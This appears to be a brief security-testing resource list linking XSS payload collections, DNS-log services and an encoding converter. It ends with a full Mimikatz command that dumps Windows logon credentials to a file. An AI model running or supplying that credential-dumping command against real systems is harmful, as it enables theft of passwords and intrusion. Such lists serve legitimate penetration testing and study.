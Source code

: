 - http://xssor.io

- https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
    - XSS Payloads

- DNSLog
    - http://ceye.io
    - https://www.t00ls.net/dnslog.html
    - http://dnsbin.zhack.ca/

- https://r12a.github.io/apps/encodings/
    - Encoding converter 

- Mimikatz
    - `mimikatz.exe privilege::debug sekurlsa::logonpasswords full exit >> log.txt`
